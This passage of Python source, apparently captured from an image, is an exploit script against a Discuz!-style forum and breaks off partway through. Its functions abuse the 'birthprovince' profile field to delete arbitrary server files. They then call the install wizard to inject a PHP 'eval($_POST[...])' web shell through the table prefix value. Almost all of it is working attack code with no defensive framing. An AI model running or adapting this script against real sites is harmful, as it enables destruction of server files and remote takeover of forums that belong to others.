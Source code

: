 ```python
    'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8',
    'Referer': url})


# sess.proxies.update({'http': 'socks5://localhost:1080'})
# sess.proxies.update({'http': 'http://localhost:8080'})


def login(username=None, password=None):
    sess.headers.update({'Cookie': cookie})


def get_form_hash():
    r = sess.get(url)
    match = re.search(r'"member.php\?mod=logging&amp;action=logout&amp;formhash=(.*?)"', r.text, re.I)
    if match:
        return match.group(1)


def tamper(formhash, file_to_delete):
    data = {
        'formhash': (None, formhash),
        'profilesubmit': (None, 'true'),
        'birthprovince': (None, file_to_delete)
    }
    r = sess.post(url, files=data)
    if 'parent.show_success' in r.text:
        print('tamperred successfully')
        return True


def delete(formhash, file):
    if not tamper(formhash, file):
        return False

    image = b'iVBORw0KGgoAAAANSUhEUgAAAAoAAAAKCAIAAAACUFjqAAAADUlEQVR4nGNgGAWkAwABNgABVtF/yAAAAABJRU5ErkJggg=='
    data = {
        'formhash': formhash,
        'profilesubmit': 'true'
    }
    files = {
        'birthprovince': ('image.png', base64.b64decode(image), 'image/png')
    }
    r = sess.post(url, data=data, files=files)
    if 'parent.show_success' in r.text:
        print('delete {} successfully'.format(file))
        return True


def getshell():
    install_url = target + '/install/index.php'
    r = sess.get(install_url)
    if '安装向导' not in r.text:
        print('install directory not exists')
        return False

    table_prefix = "x');@eval($_POST[{}]);('".format(shell_password)
    data = {
        'step': 3,
        'install_ucenter': 'yes',
```